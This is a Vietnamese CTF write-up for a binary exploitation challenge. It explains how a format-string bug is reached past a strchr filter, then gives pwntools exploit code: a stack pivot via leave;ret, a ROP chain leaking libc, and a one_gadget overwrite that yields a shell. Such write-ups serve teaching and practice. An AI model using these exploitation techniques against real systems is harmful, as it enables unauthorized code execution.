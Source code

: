 **1. Tìm bug**
  - Xem qua ida, hàm main không có gì hot chủ yếu call vuln
  - ![image](https://user-images.githubusercontent.com/113702087/214854559-43ddf861-53ed-44a1-b81e-987c0c1dc774.png)
  - ở đây ta thấy ngay lỗi fmt, có một chút trở ngại để thực hiện %n vì khi nhập chuỗi s được kiểm tra qua hàm strchr
  - ta có thể lợi dụng điểm dừng của hàm strchr là null byte để đưa %n vào, đồng thời dùng %c để kéo dãn độ dài s bù vào null byte đó thì có thể thực thi được %n
  - Sau khi debug vài lần thì thấy rằng ```'%6c' + b'\x00'*6' + fmt'``` thì có thể thực thi fmt được với fmt có %n được setup sẵn
  - ![image](https://user-images.githubusercontent.com/113702087/214909361-7d68a056-02bf-43b9-9ade-38e12a00aea0.png)
  - ![image](https://user-images.githubusercontent.com/113702087/214909428-029d364d-396a-441c-a476-10e5d81b1aab.png)

**2. Ý tưởng**
  - Tôi sẽ thay đổi saverbp thành 1 địa chỉ nằm trong khoảng buf và saverip thành leave ; ret lúc này rsp sẽ thành (rbp + 8) và vì nằm trong khoảng buf nên ta có thể ghi các ROP vào
  - Do mỗi khi thực hiện fmt thì các dữ liệu đều được ghi vào đó khiến việc setup địa chỉ trong stack khá khó khăn vì có thể bị các dữ liệu mới ghi đè vào
  - ![image](https://user-images.githubusercontent.com/113702087/215037508-00decbc8-7d7e-4c05-bd12-bc4a797bb640.png)
  - Tôi đã test thử '%20c%24$n'
  - ![image](https://user-images.githubusercontent.com/113702087/215037561-7a564f07-c5ef-4972-818a-950e0c71068b.png)
  - Chúng ta có thể thấy sự thay đổi của stack
  - Byte của saverip cần chuyển là 0xad làm tròn sẽ là 0xb0, đây sẽ là byte lớn nhất và được ghi sau cùng của fmt, từ (buf + 176) trở đi ta có thể ghi các địa chỉ cần ghi đè và ROP
  - Ở đây tôi chỉ ghi 2 địa chỉ do đó các ROP sẽ bắt đầu ghi từ (buf + 192) -> saverbp mới là (buf + 184) -> ghi được 8 stack, khá ít nhưng thế cũng là đủ

**3. Exploit**
  - **leak địa chỉ buf và tính cách giá trị cho fmt**
  ```
  r.recvuntil(b'at ')
out = r.recv(14)
buff_addr = int(out, 16)
print(hex(buff_addr))


saverip = buff_addr + 280
saverbp = buff_addr + 288
rbp_addr = buff_addr + 272
leave_ret = 0x00000000004012ad

libc.sym['one_gadget'] = 0xe3b01



new_saverbp = buff_addr + 184
print('buff_add: ' + hex(new_saverbp))
s_newsaverbp = str(hex(new_saverbp))
off_set = int('0x' + s_newsaverbp[12:14], 16)
print(off_set)
  ```
  
  ```
  if off_set - 9 < 0:
    r.close()
elif off_set > 0xad :
    r.close()
  ```
  - ở đây offset cho %n phải > 9 do %6c đã tạo ra 9 byte nên lúc ghi vào sẽ >= 9 byte, đồng thời phải < 0xad là byte của saverip mới ( leave ; ret )
  - **Tạo payload**
  ```
  payload = b'%6c'.ljust(8, b'\x00') + b'\x00' + b'%' + str(off_set - 9).encode('utf-8') + b'c%27$hhn' + b'%' + str(0xad - off_set).encode('utf-8') + b'c%28$hhn' 
payload = payload.ljust(56, b'\x00') + b'\x00'*120 + p64(rbp_addr) + p64(saverip) + p64(pop_rdi) + p64(exe.got['printf']) + p64(exe.sym['printf']) + p64(ret) + p64(exe.sym['vuln']) + p64(pop_rbp) + p64(buff_addr) + p64(leave_ret)
  ```
  - Ban đầu leak libc rồi thực thi lại vuln để ghi onegadget tiếp đó thay đổi rbp và leave ; ret vào onegadget
  - **Leak libc**
  ```
  out = r.recv(6)
print(out)
libc_leak = u64(out + b'\x00'*2)
libc.address = libc_leak - libc.sym['printf']
print('libc_base: ' + hex(libc.address))
print('one_gadget: ' + hex(libc.sym['one_gadget']))
  ```
  - **Gửi payload có onegadget**
  ```
  payload = b'n'*55 + p64(libc.sym['one_gadget'])
r.sendlineafter(b': ', payload)
  ```
  - **Get shell**
  - ![image](https://user-images.githubusercontent.com/113702087/215040212-56973d58-24ab-41ea-a351-4b14b6990022.png)
  
